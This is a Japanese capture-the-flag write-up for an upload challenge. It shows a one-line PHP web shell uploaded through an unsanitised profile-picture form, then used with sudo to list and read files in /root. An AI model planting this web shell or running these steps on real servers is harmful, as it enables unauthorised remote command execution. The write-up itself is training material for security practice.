 ## n0s4n1ty 1

### Description  
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


要約すると、  
写真をアップロードできるwebサイトに欠陥があるよ。  
**/root**ディレクトリ内に隠されているFlagを探して！！

---
早速、webサイトにアクセスする。  
下のようなwebサイトが開く。

![](./img/aa41cb7b591d-20250318.png)

ファイルを適当に、アップする。  
どうやら、サニタイズをしていない。  
jpeg/pngだけでなく、phpもアップできる。 

test.phpファイルをアップすると、どうやら、uploadsフォルダに置かれたようだ。
> The file test.php has been uploaded Path: uploads/test.php

phpファイルをアップロードできるので、以下のスクリプトをアップロードする。
```php
<?php system($_GET["cmd"]);?>
```

その後、url欄の`upload.php`を消して、`uploads/test.php?cmd=sudo%20-l`に置き換える。

実行結果
```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

だいたいのコマンドは実行できそう。
`ls /root` を実行する
`cmd=sudo%20-l`を`cmd=sudo%20ls%20/root`にする

実行結果
```
flag.txt
```

cat して中身を見ればFlagがゲットできそう。

`cmd=sudo%20ls%20/root`を`cmd=sudo%20cat%20/root/flag.txt`

実行後、Flagゲット